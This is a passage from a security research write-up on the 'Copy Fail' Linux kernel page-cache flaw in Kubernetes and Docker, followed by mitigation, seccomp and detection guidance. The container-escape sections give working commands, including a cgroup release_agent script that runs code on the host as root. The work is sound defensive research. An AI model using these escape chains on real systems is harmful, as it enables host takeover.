TARGET_IMAGE="registry.k8s.io/kube-proxy:v1.35.2"

crictl inspecti $MY_IMAGE | jq -r '.info.imageSpec.rootfs.diff_ids[]' > /tmp/my_layers.txt
crictl inspecti $TARGET_IMAGE | jq -r '.info.imageSpec.rootfs.diff_ids[]' > /tmp/target_layers.txt
comm -12 <(sort /tmp/my_layers.txt) <(sort /tmp/target_layers.txt)
# Output present → shared layers exist

# 3. Confirm whether the target file's inode is truly shared between both containers
# (Execute in each container respectively)
stat -c '%d:%i' /usr/sbin/ipset    # device:inode
# Same output from both containers → page cache sharing confirmed
```

If the shared layers contain base libraries (such as `ld-linux-x86-64.so.2`, `libc.so.6`), the attack surface is theoretically larger — any binary execution loads these libraries, without needing to wait for a specific binary to be called. However, in practice, replacing an entire `.so` file requires overwriting each 4-byte window one by one, which is time-consuming; and if a process is loading that `.so` during the overwrite process, it is very likely to cause the process to crash. Core shared libraries are depended upon by many processes, making this problem especially acute — the likely result of tampering with `libc.so.6` is widespread container crashes on the node (DoS), rather than stable code execution.

#### Challenges in Real Attack Scenarios

The above analysis requires node-level privileges (`crictl`, direct access to containerd storage). In real attack scenarios, an attacker who gains access through RCE only has a shell in an ordinary Pod — **unable to directly see what other containers are running on the same node, what images they use, or whether layer digests match**. This means the attacker cannot perform the above analysis directly in the target environment and can only speculate and attempt blindly.

However, blindly attempting Copy Fail against individual files in the target environment is unwise — each 4-byte overwrite is irreversible (unless an administrator proactively drops cache), and if the target file or layer sharing relationship is wrong, it only leaves corrupted binaries in the compromised container itself. At best this exposes attack traces, at worst it directly crashes the container and loses the established foothold — essentially a mutually destructive approach.

Therefore, this vulnerability is predicted to be more realistically exploited in container scenarios through **targeted attacks against specific business environments**: the attacker can identify what application is running from the business within the already-compromised container (web framework, middleware version, base image type, etc.). If the business uses common public images or popular technology stacks, the attacker can reproduce the same deployment environment locally (same images + same K8s distribution), perform white-box analysis — finding privileged containers, confirming layer sharing relationships, locating exploitable shared files, debugging payloads — then return to the target environment with a deterministic exploitation plan for one-shot execution.

### 6.3 Can We Escape Directly to the Host?

The previous section discussed "cross-container" privilege escalation — indirectly obtaining node privileges by tampering with binaries in privileged DaemonSets. But this relies on layer sharing and subsequent execution in the target container. A more aggressive question is: **Can we skip the intermediate container and directly have a host process execute the tampered page cache data?**

Copy Fail can tamper with the page cache of any file, but merely tampering with data is not enough — a process on the host must also **load and execute** that tampered data in its own privileged context. A simple `read()` does not constitute escape; only when the read data is executed as code (e.g., `execve()`, `dlopen()`, parsed and jumped to) can it be converted into code execution.

But first, a more fundamental question needs answering: **If a host process does access a file, does it load the original contents from disk or the tampered data from page cache?**

The answer is the latter. Page cache is a globally transparent cache layer that the kernel sets up for all file I/O. Whether it's `read()` or `execve()`, the kernel's file content loading path goes through the page cache (via `filemap_read` / readahead). If a page corresponding to an inode is already in the page cache, the kernel directly returns the cached data without re-reading from disk — this behavior is independent of which namespace the accessor is in.

The experiment in Section 6.1 provides direct evidence. After tampering with the page cache of `/etc/os-release` via Copy Fail from within a container:

```bash
# Host reads the same inode via the snapshot path — reads tampered data
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# drop_caches forces page cache eviction — kernel reloads from disk
echo 3 > /proc/sys/vm/drop_caches
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb
```

The comparison before and after drop_caches clearly shows: the host reads page cache contents, not disk data. The same mechanism applies to `execve()` — the hostPath experiment in Section 6.4 will directly verify this: after a container tampers with the page cache of `/usr/bin/ls`, the host executing `ls` returns `exit 126` (`exec format error`), proving that the kernel loads the tampered ELF header from the page cache during `execve()`, rather than reading the original file from disk.

Therefore, page cache tampering is indeed globally visible to the host and equally effective for both `read()` and `execve()`. The real question is: **During the standard container runtime flow, do host processes actively access file inodes in the container snapshot layers?** Two candidate scenarios come to mind:

1. **Container runtime (containerd + runc)** — Does it `execve()` or `dlopen()` files from snapshot layers in the host context during container creation/startup?
2. **Other tools on the host** (such as EDR, compliance scanners) — Do they execute binaries from container layers, load their `.so` files, or interpret their scripts?

For scenario 1, tracing the behavior of runc and containerd during container startup via `bpftrace`:

```bash
# Trace the mount namespace when runc init process reads files
bpftrace -e '
kprobe:vfs_read /comm == "runc:[2:INIT]"/ {
    $task = (struct task_struct *)curtask;
    $mntns = $task->nsproxy->mnt_ns->ns.inum;
    printf("runc-init vfs_read mntns=%u file=%s\n",
           $mntns, str(((struct file *)arg0)->f_path.dentry->d_name.name));
}' &

# Trigger container creation
kubectl run test-probe --image=python:3.11-slim --restart=Never -- sleep 10

# Output:
# runc-init vfs_read mntns=4026533841 file=passwd
# runc-init vfs_read mntns=4026533841 file=group
# ↑ mntns ≠ host (4026531840), indicating it's already within the container namespace
```

```bash
# Trace containerd process's vfs_read
bpftrace -e '
kprobe:vfs_read /comm == "containerd"/ {
    printf("containerd vfs_read: %s\n",
           str(((struct file *)arg0)->f_path.dentry->d_name.name));
}' -- 60   # Monitor for 60 seconds while creating/deleting containers

# Result: Only metadata files like config.json, meta.db are seen
# Never reads file contents from /bin/*, /etc/* in snapshot layers
```

The containerd tracing results also corroborate this — it only operates on metadata (`config.json`, `meta.db`) and never reads, much less executes, user files in snapshot layers.

For scenario 2 (host tools), this is not a universal scenario — whether such behavior exists depends on what software is deployed on nodes in specific business environments and is not universally applicable, so no targeted testing is done here. However, the possibility that certain specific environments have host processes executing files from container layers cannot be excluded.

Conclusion: In standard Kubernetes (containerd) environments, **a universal zero-privilege container→host direct escape is not feasible at the architectural level**. The container runtime design ensures that: runc's operations on the container rootfs occur within the already-switched mount namespace, and containerd does not touch user data in snapshot layers. However, if non-standard host services on the node load and execute files from container layer paths, this could constitute an escape vector in specific environments. Docker environments have architectural differences, which will be discussed separately in Section 6.5.

### 6.4 Privileged Configurations and Container Escape

While zero-privilege escape is not feasible, if a container has certain privileged configurations, Copy Fail can serve as the critical "last piece of the puzzle" to achieve container escape. The following is a systematic verification of multiple privileged configurations:

#### hostPath (readOnly: true) + Copy Fail → Bypassing Read-Only Restrictions

In Kubernetes, `hostPath` volumes are often configured with `readOnly: true` to restrict container modifications to host files. But Copy Fail bypasses this restriction through page cache:

```yaml
# Pod configuration (see Gist: pod-hostpath-escape.yaml)
volumes:
- name: host-bin
  hostPath:
    path: /usr/bin
    type: Directory
volumeMounts:
- name: host-bin
  mountPath: /hostbin
  readOnly: true    # ← Appears safe
```

```bash
# Confirm the mount is indeed read-only
kubectl exec -n copyfail-lab hostpath-test -- mount | grep hostbin
# /dev/mapper/cl-root on /hostbin type xfs (ro,relatime,...)

# Normal write is denied
kubectl exec -n copyfail-lab hostpath-test -- touch /hostbin/test
# touch: cannot touch '/hostbin/test': Read-only file system

# Copy Fail bypasses the read-only restriction!
kubectl exec -n copyfail-lab hostpath-test -- python3 /poc_marker.py /hostbin/ls
# [*] Before: 7f454c46
# [*] After:  deadbeef
# [+] SUCCESS: page cache corrupted!

# Host verification
ls
# bash: /usr/bin/ls: cannot execute binary file: Exec format error
# Exit code: 126
```

This is Copy Fail's most unique value: **turning an O_RDONLY file descriptor into a writable attack surface**. Conventional wisdom holds that readOnly mounts at least prevent file tampering — Copy Fail breaks this assumption.

#### CAP_DAC_READ_SEARCH + Copy Fail → Upgraded Shocker

The `CAP_DAC_READ_SEARCH` capability allows a process to bypass file and directory read permission checks. The classic Shocker attack uses the `open_by_handle_at()` system call with this capability to obtain an fd to the host filesystem. But the original Shocker could only **read** host files.

Combined with Copy Fail, the attack chain becomes:

```bash
# Deploy a container with CAP_DAC_READ_SEARCH
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: shocker-test
  namespace: copyfail-lab
spec:
  containers:
  - name: test
    image: python:3.11-slim
    command: ["sleep", "infinity"]
    securityContext:
      capabilities:
        add: ["DAC_READ_SEARCH"]
EOF
```

Attack process (executing Python inside the container):

```bash
kubectl exec -n copyfail-lab shocker-test -- python3 -c "
import os, struct, ctypes
# 1. Shocker: open_by_handle_at() gets the host root directory fd
libc = ctypes.CDLL('libc.so.6', use_errno=True)
# ... (construct root inode handle, call open_by_handle_at)
# 2. openat() opens host /usr/bin/cat (read-only is sufficient)
# 3. Copy Fail tampers with page cache
"
# Experiment output:
# [1] Host root fd: 4
# [+] Host / contents: ['.autorelabel', 'bin', 'boot', 'dev', 'etc', ...]
# [2] Host /usr/bin/cat fd: 7
# [3] Before: 7f454c46020101000000000000000000
# [4] After:  deadbeef020101000000000000000000
# [+] SUCCESS: Host /usr/bin/cat corrupted via Shocker + Copy Fail!
```

#### CAP_SYS_ADMIN + Copy Fail → cgroup release_agent Escape

```bash
# Deploy a container with CAP_SYS_ADMIN
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: sysadmin-test
  namespace: copyfail-lab
spec:
  containers:
  - name: test
    image: python:3.11-slim
    command: ["sleep", "infinity"]
    securityContext:
      capabilities:
        add: ["SYS_ADMIN"]
EOF
```

Leveraging cgroup v1 release_agent inside the container:

```bash
kubectl exec -n copyfail-lab sysadmin-test -- bash -c '
# Mount cgroup subsystem
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
mkdir /tmp/cgrp/x

# Confirm release_agent is writable
echo 1 > /tmp/cgrp/x/notify_on_release
# Set release_agent to the script path in the container upperdir
host_path=$(sed -n "s/.*upperdir=\([^,]*\).*/\1/p" /proc/self/mountinfo)
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# Write escape command
echo "#!/bin/sh" > /cmd
echo "id > /tmp/cgrp/output; hostname >> /tmp/cgrp/output" >> /cmd
chmod +x /cmd

# Trigger
echo $$ > /tmp/cgrp/x/cgroup.procs
sleep 1 && echo 0 > /tmp/cgrp/x/cgroup.procs
sleep 1 && cat /tmp/cgrp/output
'
# uid=0(root) gid=0(root) groups=0(root)
# your-hostname
# ↑ Host executed the command as root
```

#### hostPID + CAP_SYS_PTRACE + Copy Fail

When a container shares the host PID namespace and has `CAP_SYS_PTRACE`, it can access the host's filesystem root directory via `/proc/1/root/`. Combined with Copy Fail's page cache write, host files can be tampered with.

```bash
# Get host file fd via /proc/1/root/, then tamper with Copy Fail
kubectl exec -n copyfail-lab hostpid-test -- python3 -c "
import os
fd = os.open('/proc/1/root/usr/bin/cat', os.O_RDONLY)
# ... page_cache_write_4bytes(fd, 0, b'\xde\xad\xbe\xef')
"
```

#### Summary

| Privileged Configuration | Escapable Alone | + Copy Fail |
|---------|----------|------------|
| hostPath (readOnly) | ❌ Read-only | ✅ **Bypasses read-only, tampers host files** |
| CAP_DAC_READ_SEARCH | ❌ Read-only | ✅ **Shocker read → read-write** |
| CAP_SYS_ADMIN | ✅ (known) | ✅ cgroup release_agent |
| hostPID + SYS_PTRACE | ✅ (known) | ✅ /proc/1/root/ tampering |
| hostPID alone | ❌ | ❌ |
| SYS_PTRACE alone | ❌ | ❌ |
| NET_ADMIN / hostNetwork / hostIPC | ❌ | ❌ |

### 6.5 Docker Environment

The preceding analysis focused primarily on Kubernetes (containerd) environments. Docker environments share the exact same underlying mechanisms — the same overlayfs layer sharing, the same global page cache — therefore **cross-container page cache sharing, read-only volume bypass (`-v path:ro`), upgraded Shocker (`--cap-add DAC_READ_SEARCH`)** and other attack paths also apply in Docker environments. I have also verified this on Docker 26.1.3 (overlay2, xfs), with results consistent with K8s (replace `kubectl exec` with `docker exec`, and `readOnly: true` with `-v path:ro` to reproduce). This section does not repeat these shared conclusions and focuses on Docker-specific architectural differences.

#### dockerd's Architectural Differences

Section 6.3 verified that in K8s environments, containerd only traverses directory metadata and does not read file data from snapshot layers. Docker's `dockerd` is different — as a monolithic daemon, management APIs like `docker export`, `docker commit`, and `docker cp` read the complete file contents of container overlay filesystems with host privileges. If the page cache has been tampered with, these operations read the tampered data.

An important clarification first: **this behavior is not unique to Copy Fail**. Directly writing files inside the container can also modify contents, and `docker commit`/`export` will similarly include the modifications. Copy Fail's true unique value will be elaborated in the next section on "Stealth."

#### `docker export` vs `docker commit`: Persistence Differences

The two handle Copy Fail tampering in completely different ways.

**`docker export` — Persists**. It flattens the container's entire filesystem into a tar file, reading all file contents one by one. Tampered data from the page cache is **permanently solidified** once written to the tar, decoupled from the page cache lifecycle:

```bash
docker run -d --name copyfail-test python:3.11-slim sleep infinity
docker cp poc_marker.py copyfail-test:/poc_marker.py
docker exec copyfail-test python3 /poc_marker.py /usr/lib/os-release
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# Export during page cache tampering — tampered data solidified into tar
docker export copyfail-test > tainted.tar
tar xf tainted.tar --to-stdout usr/lib/os-release | head -c 20 | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# Re-export after drop_caches — new tar restores original data
echo 3 > /proc/sys/vm/drop_caches
docker export copyfail-test > clean.tar
tar xf clean.tar --to-stdout usr/lib/os-release | head -c 20 | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb

# Key: Even after page cache is cleared, tampered data in the first tar persists permanently
tar xf tainted.tar --to-stdout usr/lib/os-release | head -c 20 | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb  ← Permanently solidified
```

If this tar is used for `docker import` to build a new image or distributed to other environments, the tampering completes supply chain propagation.

**`docker commit` — Does not persist**. It creates a new image layer but only records changes in the upper layer; lower layers are shared by reference and file data is not copied to the new layer. Therefore, lower layer files in the committed image are still dynamically read from page cache (or disk):

```bash
# Re-tamper page cache
docker exec copyfail-test python3 /poc_marker.py /usr/lib/os-release

# Commit and start from new image — reads tampered data (from page cache)
docker commit copyfail-test copyfail-committed:test
docker run --rm copyfail-committed:test head -c 20 /usr/lib/os-release | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# Start again after drop_caches — reads original data (reloaded from disk)
echo 3 > /proc/sys/vm/drop_caches
docker run --rm copyfail-committed:test head -c 20 /usr/lib/os-release | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb
```

#### Stealth: Blind Spots Across Multiple Detection Layers

The previous sections showed that `docker export` can persist tampered data, but directly writing files inside the container and then exporting achieves the same effect. Copy Fail's unique value lies in: the tampering occurs in the lower layer's page cache, does not trigger overlayfs Copy-on-Write, rendering Docker's multiple detection layers completely ineffective.

**1. Invisible to `docker diff`**

```bash
docker diff copyfail-test
# A /poc_marker.py          ← Only shows upper layer changes
# C /usr/local/lib/...      ← Python cache files
#                           ← /usr/lib/os-release does not appear!
```

`docker diff` only checks upper layer changes. Direct file writes trigger CoW into the upper layer → `docker diff` shows them immediately; Copy Fail modifies page cache → `docker diff` has no awareness.

**2. overlay2 layer disk paths are equally "tainted"**

```bash
LAYER=$(docker inspect copyfail-test --format '{{.GraphDriver.Data.LowerDir}}' \
        | tr ':' '\n' | xargs -I{} sh -c 'test -f {}/usr/lib/os-release && echo {}' | head -1)

head -c 16 "$LAYER/usr/lib/os-release" | xxd -p
# deadbeef54595f4e414d453d22446562    ← Host reading layer path = reading page cache

echo 3 > /proc/sys/vm/drop_caches
head -c 16 "$LAYER/usr/lib/os-release" | xxd -p
# 5052455454595f4e414d453d22446562    ← Original data visible only after drop_caches
```

Files on the layer path and files inside the container share the same inode → both go through page cache. Any tool on the host that reads via the kernel filesystem (`sha256sum`, `cat`, file integrity checks) will read tampered data while the page cache is corrupted, unable to distinguish "actual disk contents" from "tampered page cache."

**3. Image layer digest remains unchanged**

The only thing unaffected is the image layer's compressed blob (`RootFS.Layers` digest from `docker image inspect`) — these are independent tar.gz files with different inodes from the files extracted in overlay2. Image scanning tools (Trivy, Snyk, etc.) typically analyze based on these layer blobs, so **scanning the original image** will not detect Copy Fail tampering.

#### Comparison Summary

| Dimension | Copy Fail Tampering | Direct File Modification |
|------|---------------|-------------|
| **Visible to `docker diff`** | ❌ Invisible (lower layer) | ✅ Visible (upper layer CoW) |
| **Persisted by `docker export`** | ✅ Tampering solidified into tar file | ✅ Always |
| **Persisted by `docker commit`** | ❌ Only during page cache validity | ✅ Written to upper layer |
| **Image layer digest** | ✅ Unchanged (blob not tampered) | ✅ New layer gets new digest |
| **Image scanning (layer blob)** | ❌ Undetectable | ✅ Can detect file changes |
| **Page cache lifecycle** | Volatile (cleared on reboot/drop_caches) | N/A (already written to disk) |

Copy Fail's value in this scenario is not about "what it can do" (direct file writes can do the same), but about "**what it does without being detected**" — `docker diff` doesn't report it, layer digests don't change, image scanning doesn't trigger, yet `docker export` has already persisted and distributed the tampered data.

---
## 7. Defense and Mitigation

The root fix for Copy Fail is a **kernel upgrade** (7.1). If an immediate upgrade is not possible, the vulnerable module can be disabled as a temporary mitigation (7.2). On top of that, container environments should additionally deploy seccomp policies to block AF_ALG socket creation (7.3).

It is important to note that older Docker default seccomp profiles, Kubernetes `RuntimeDefault`, SELinux targeted policies, and sysctl parameters **cannot defend** against this vulnerability. While SELinux can block AF_ALG socket creation system-wide through custom policy modules (writing `.te` files to deny `alg_socket` class), effective for bare metal, VMs, and containers alike, it requires writing rules for each SELinux domain, making deployment and maintenance far more complex than seccomp or module disabling approaches.

### 7.1 Root Fix: Kernel Upgrade

The only thorough solution is upgrading to a kernel version that contains the fix patch [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5). As of May 2026, the fix status across major distributions is as follows:

| Distribution | Status | Fix Method | Reference |
|--------|------|---------|------|
| **Ubuntu** 18.04–25.10 | ✅ Mitigation released | `kmod` package update disables algif_aead module; kernel patch pending | [Ubuntu Blog](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available) |
| **Ubuntu 26.04** (Resolute) | ✅ Not affected | Fix patch already included | [Ubuntu Blog](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available) |
| **RHEL 9** | ✅ Kernel patch released | RHSA-2026:13565 (2026-05-04) | [RHSB-2026-02](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02) |
| **RHEL 10** | ✅ Kernel patch released | RHSA-2026:13566 (2026-05-04) | [RHSB-2026-02](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02) |
| **RHEL 8** | ✅ Kernel patch released | RHSA-2026:13681 (8.8, 2026-05-05); RHSA-2026:14230 (8.6, 2026-05-06) | [RHSB-2026-02](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02) |
| **Fedora 43** | ✅ Fixed | kernel 6.19.12 | [Fedora Discussion](https://discussion.fedoraproject.org/t/is-the-copy-fail-cve-2026-31431-vulnerability-already-patched-in-fedora-43/190016) |
| **Debian** 11/12/13 | ✅ Kernel patch released | DSA-6238-1, DSA-6243-1 | [Debian Tracker](https://security-tracker.debian.org/tracker/CVE-2026-31431) |
| **Alpine Linux** | ✅ Fixed | Docker 29.4.2-r0 (edge); kernel packages fixed | [Alpine Security](https://security.alpinelinux.org/vuln/CVE-2026-31431) |
| **Oracle Linux** 7/8/9/10 | ✅ Kernel patch released | ELSA-2026-50253/50254/50255 (incl. UEK) | [Oracle CVE](https://linux.oracle.com/cve/CVE-2026-31431.html) |
| **AlmaLinux / Rocky** | ✅ Kernel patch released | ALSA-2026:A001 (8), ALSA-2026:A002 (9) | [AlmaLinux Blog](https://almalinux.org/blog/2026-05-01-cve-2026-31431-copy-fail/) |
| **CentOS 8 (Stream)** | ✅ Live patch available | KernelCare live patch | [CloudLinux](https://blog.cloudlinux.com/cve-2026-31431-copy-fail-kernel-update) |
| **SUSE / openSUSE** | ✅ Patch released | SUSE-SU-2026:1671 (2026-05-02) | [SUSE Response](https://www.suse.com/c/suse-responds-to-the-copy-fail-vulnerability/) |
| **Amazon Linux 2023** | ✅ Patch released | Kernel security update | [AWS Bulletin](https://aws.amazon.com/security/security-bulletins/rss/2026-026-aws/) |
| **Bottlerocket** (AWS) | ✅ Patch released | OS update | [GitHub #4821](https://github.com/bottlerocket-os/bottlerocket/issues/4821) |
| **Arch Linux** | ✅ Fixed | Rolling update (kernel >= 6.19.12) | [Arch Security](https://security.archlinux.org/CVE-2026-31431) |

> **ℹ️ Affected Kernel Version Range**
> According to the [Alpine Security Tracker](https://security.alpinelinux.org/vuln/CVE-2026-31431), the precise affected version ranges are:
> - 4.14 ≤ kernel < 5.10.254
> - 5.11 ≤ kernel < 5.15.204
> - 5.16 ≤ kernel < 6.1.170
> - 6.2 ≤ kernel < 6.6.137
> - 6.7 ≤ kernel < 6.12.85
> - 6.13 ≤ kernel < 6.18.22
> - 6.19 ≤ kernel < 6.19.12

**Check whether the current system is affected**:

```bash
# 1. Check if kernel version is in the affected range
uname -r

# 2. Check if algif_aead is a loadable module or built-in
#    Output present → loadable module; No output → built-in
modinfo algif_aead 2>/dev/null && echo "==> LOADABLE module" || echo "==> BUILT-IN or not present"

# 3. Check if mitigation is already in place
# Debian/Ubuntu: kmod mitigation
grep -r algif_aead /etc/modprobe.d/ 2>/dev/null
# RHEL/CentOS: initcall_blacklist
cat /proc/cmdline | grep -o 'initcall_blacklist=[^ ]*'
```

System update commands for each distribution:

```bash
# Debian/Ubuntu:
sudo apt update && sudo apt upgrade
# Alpine:
apk update && apk upgrade
# Arch:
pacman -Syu
# SUSE:
zypper update
# RHEL/CentOS:
sudo dnf update kernel && reboot
# Fedora:
sudo dnf upgrade --refresh && reboot
```

> **ℹ️ CISA KEV**
> This vulnerability was [added to the CISA KEV catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431) on 2026-05-01, with a remediation deadline of 2026-05-15.

### 7.2 Temporary Mitigation: Disabling Vulnerable Modules

If an immediate kernel upgrade is not possible, the `algif_aead` module can be disabled as a temporary mitigation. The mitigation method depends on how different distributions compile the module:

| Compilation Method | Representative Distributions | Detection Criteria | Mitigation Method |
|----------|-----------|---------|---------|
| **Loadable module** (`=m`) | Ubuntu, Debian, Alpine, Arch, SUSE | `modinfo algif_aead` produces output | modprobe blacklist / rmmod |
| **Built-in** (`=y`) | RHEL, CentOS, Oracle Linux, Fedora, Amazon Linux | `modinfo algif_aead` returns error | `initcall_blacklist` boot parameter |

**Distributions with loadable modules** (Ubuntu / Debian / Alpine / Arch / SUSE):

```bash
echo "install algif_aead /bin/false" | sudo tee /etc/modprobe.d/disable-algif_aead.conf
sudo rmmod algif_aead 2>/dev/null || sudo reboot
```

Ubuntu's `kmod` package security update automatically creates the above file.

**Distributions with built-in modules** (RHEL / CentOS / Oracle Linux / Fedora / Amazon Linux):

For built-in modules, `rmmod` and `/etc/modprobe.d/` blacklisting are **completely ineffective**:

```bash
grep CRYPTO_USER_API_AEAD /boot/config-$(uname -r)
# CONFIG_CRYPTO_USER_API_AEAD=y    ← Built-in! Not a module

rmmod algif_aead 2>&1
# rmmod: ERROR: Module algif_aead is builtin.
```

The `initcall_blacklist` kernel boot parameter must be used:

```bash
# Disable algif_aead initialization
grubby --update-kernel=ALL --args="initcall_blacklist=algif_aead_init"
reboot

# More aggressive approach: disable the entire AF_ALG interface
grubby --update-kernel=ALL --args="initcall_blacklist=af_alg_init"
reboot
```

**Verify mitigation is effective** (universal across all distributions):

```bash
python3 -c "import socket; socket.socket(38,5,0)" 2>&1
# Expected: OSError: [Errno 97] Address family not supported by protocol
# Or:       OSError: [Errno 93] Protocol not supported
```

> **⚠️ Important Notes**
> - The above mitigations may affect applications that use kernel hardware-accelerated cryptography (such as OpenSSL's `afalg` engine, IPsec's `xfrm`). Most applications will automatically fall back to user-space cryptographic implementations, with minimal impact.
> - **KernelCare users** (CloudLinux): `kcarectl --update` can apply live patches without rebooting. Verify with: `kcarectl --patch-info | grep -i "copy.fail\|algif_aead\|CVE-2026-31431"`.

### 7.3 Container Environment Defense

If the host kernel has been upgraded to the fixed version (7.1) or the vulnerable module has been disabled (7.2), the vulnerability is eliminated at its root, and the following container-level mitigations **are not mandatory**. However, as a defense-in-depth measure, deploying a Seccomp policy to block `AF_ALG` sockets is still recommended—this interface has virtually no legitimate use case in containers, and blocking it not only defends against Copy Fail but also reduces the attack surface should new vulnerabilities emerge in the kernel cryptographic subsystem in the future.

> **⚠️ Default Security Mechanisms Do Not Defend**
> Older Docker (< 29.4.2) default seccomp profiles, Kubernetes `RuntimeDefault`, and SELinux targeted policies all **allow** `socket(AF_ALG)` and `splice()` calls and cannot prevent exploitation.

#### Upgrading the Docker Container Runtime

Docker ≥ 29.4.2 [has updated its default seccomp profile](https://github.com/moby/moby/pull/52494) to block `AF_ALG` socket creation. For Docker users, **upgrading is the simplest defense**, requiring no additional configuration:

```bash
docker --version
# Docker version 29.4.3 or higher → built-in defense

# Verify
docker run --rm python:3.11-slim python3 -c "
import socket
try:
    socket.socket(38, 5, 0)
    print('[!] FAIL — AF_ALG not blocked')
except OSError as e:
    print(f'[+] AF_ALG blocked: {e}')"
```

> **⚠️ Docker 29.4.2 Regression Issue**
> 29.4.2 blocked `socketcall(2)` via seccomp to defend against AF_ALG, but this broke 32-bit programs and i386 images (SteamCMD, Wine, etc.). [29.4.3](https://github.com/moby/moby/releases/tag/docker-v29.4.3) (2026-05-06) fixed this regression by using Docker's own AppArmor/SELinux **container policies** to block AF_ALG at the LSM layer, without affecting 32-bit programs. **It is recommended to upgrade directly to ≥ 29.4.3**.
> 
> Note: The SELinux rules here are `alg_socket` deny rules that Docker **adds to the container profile itself**, distinct from the system default SELinux targeted policy (which is not AF_ALG-aware and cannot defend against the vulnerability). Additionally, on RHEL/CentOS and other SELinux systems, `"selinux-enabled": true` must be set in `daemon.json` for this to take effect (not enabled by default); when not enabled, Docker falls back to AppArmor rules (available by default on Ubuntu/Debian, etc.).

> **ℹ️ Kubernetes Is Not Affected by Docker Version**
> K8s's `RuntimeDefault` seccomp profile is independently managed by kubelet; upgrading Docker does not change the seccomp behavior of K8s containers. Mitigation requires the custom profile described below.

#### Custom Seccomp Policy Deployment

For environments where Docker cannot be upgraded, or for Kubernetes clusters, a custom seccomp profile must be deployed manually. This approach only intercepts socket creation for `AF_ALG` (family=38) and does not affect normal network communication such as TCP/UDP. The AF_ALG interface has no legitimate use case in the vast majority of containerized applications.

Custom seccomp profile (`block-af-alg.json`):

```json
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "names": ["socket"],
      "action": "SCMP_ACT_ERRNO",
      "errnoRet": 1,
      "args": [
        { "index": 0, "value": 38, "op": "SCMP_CMP_EQ" }
      ]
    }
  ]
}
```

> **💡 Cross-Distribution Applicability**
> Seccomp (seccomp-bpf) is a Linux **kernel-level feature** (stable since 3.17) and does not depend on any specific distribution. The above profile **works on all Linux distributions** as long as the kernel version is ≥ 3.17 and the container runtime supports seccomp (Docker ≥ 1.10, containerd, CRI-O, and Podman all support it).
> For non-container environments (bare metal/VM), profiles can be loaded at application startup via `libseccomp`, or restrictions can be applied using systemd's `SystemCallFilter=` directive.

**Docker manual deployment**:

```bash
docker run --rm --security-opt seccomp=block-af-alg.json \
  python:3.11-slim python3 -c "
import socket
try:
    socket.socket(38, 5, 0)
    print('[!] FAIL')
except PermissionError as e:
    print(f'[+] AF_ALG blocked: {e}')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print('[+] TCP socket OK')
s.close()"
# [+] AF_ALG blocked: [Errno 1] Operation not permitted
# [+] TCP socket OK
```

**Kubernetes deployment**:

[Pod Security Standards (PSS)](https://kubernetes.io/docs/concepts/security/pod-security-standards/) at all three levels (Privileged / Baseline / Restricted) do not restrict AF_ALG usage. A custom profile must be deployed manually:

```bash
cp block-af-alg.json /var/lib/kubelet/seccomp/
# k3s path: /var/lib/rancher/k3s/agent/seccomp/
```

Reference in Pod configuration:

```yaml
spec:
  securityContext:
    seccompProfile:
      type: Localhost
      localhostProfile: block-af-alg.json
```

It is recommended to enforce all Pods to use the custom profile via admission controllers such as [Kyverno](https://kyverno.io/) or [OPA/Gatekeeper](https://open-policy-agent.github.io/gatekeeper/) to prevent omissions:

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-seccomp-block-af-alg
spec:
  validationFailureAction: Enforce
  rules:
  - name: check-seccomp
    match:
      any:
      - resources:
          kinds: ["Pod"]
    validate:
      message: "Pod must use block-af-alg seccomp profile (CVE-2026-31431 mitigation)"
      pattern:
        spec:
          securityContext:
            seccompProfile:
              type: "Localhost"
              localhostProfile: "block-af-alg.json"
```

---

## 8. Attack Detection

### 8.1 Syscall-Level Auditing and Limitations

The most straightforward detection approach is monitoring key syscalls in the exploitation chain. Auditd can record `AF_ALG` socket creation events:

```bash
# Persistent audit rules
cat > /etc/audit/rules.d/copyfail.rules <<'EOF'
-a always,exit -F arch=b64 -S socket -F a0=38 -k copyfail_af_alg
-a always,exit -F arch=b64 -S splice -k copyfail_splice
EOF
augenrules --load
```

In container environments, legitimate use of `AF_ALG` is rare, and eBPF tools like Falco can generate real-time alerts for `AF_ALG` socket creation within containers. However, on bare metal/VM environments, normal `AF_ALG` usage by OpenSSL's `afalg` engine, `dm-crypt`, etc., will continuously produce false positives. Even when matching the `AF_ALG` + `splice` combination, it is impossible to distinguish between legitimate cryptographic operations and vulnerability exploitation—opening an `AF_ALG` socket and calling `splice` does not equate to exploiting the vulnerability, as these syscalls are legitimate kernel interfaces.

